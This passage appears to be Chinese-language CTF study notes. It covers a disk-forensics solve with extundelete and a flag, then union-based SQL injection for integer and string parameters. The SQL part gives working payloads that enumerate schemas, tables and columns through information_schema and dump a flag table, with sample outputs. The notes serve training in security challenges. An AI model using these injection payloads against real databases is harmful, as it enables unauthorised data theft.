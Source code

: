 ```py
# UJKONJK<TFVBHYHJIPOKRDCVGRDCVGPOKQWSZTFVBHUJKOWAZXDQASEWSDRPOKXDFVIKLPNJKWSDRRFGYRDCVGUHNMKBHJMYHJI
```

### [Disk](https://buuoj.cn/challenges#[XMAN2018%E6%8E%92%E4%BD%8D%E8%B5%9B]file)
```sh
extundelete attachment.img --restore-all
```

flag{fugly_cats_need_luv_2}

### [Storage Analyse](https://buuoj.cn/challenges#[%E7%AC%AC%E5%8D%81%E7%AB%A0][10.2.2%20%E6%A1%88%E4%BE%8B%E8%A7%A3%E6%9E%90][%E9%99%87%E5%89%91%E6%9D%AF%202021]wifi)

# 4 Reverse
后面的基本上都是理论知识没有实战了。

***
# [CTF实战：技术、解题与进阶]()
***
# [SQL]
## 整数型注入
> union内部的每个select语句必须拥有相同数量的列。
```sql
-- 确认列数：order by / union

select * from xxx where id=-1 order by 3   --3列

select * from xxx where id=-1 union select 1,2,3   --3列
```
> 回显只能显示一条数据的情况时，可以通过group_concat()函数将多条数据组合成字符串并输出，或者通过limit函数选择输出第几条数据。  
> MySQL5.0以上的版本中，有一个名为information_schema的默认数据库，里面存放着所有数据库的信息，比如表名、列名、对应权限等
```sql
-1 union select 1,group_concat(schema_name) from information_schema.schemata
-- Data: information_schema,performance_schema,mysql,sqli
-1 union select 1,group_concat(table_name) from information_schema.tables where table_schema='sqli'
-- Data: news,flag 
-1 union select 1,group_concat(column_name) from information_schema.columns where table_schema='sqli' and table_name='flag'
Data: flag 
-1 union select 1,flag from sqli.flag
-- Data: ctfhub{cccd760851d6d8b64d74a6ec} 
```
## 字符型注入
使用`--`注释不成功，换成`#`才好。。。
```sql
1' and 1=2 union select 1, group_concat(schema_name) from information_schema.schemata#
-- Data: information_schema,performance_schema,mysql,sqli
1' and 1=2 union select 1,group_concat(table_name) from information_schema.tables where table_schema='sqli'#
-- Data: news,flag
1' and 1=2 union select 1,group_concat(column_name) from information_schema.columns where table_schema='sqli' and table_name='flag'#
-- Data: flag
1' and 1=2 union select 1,flag from sqli.flag#
```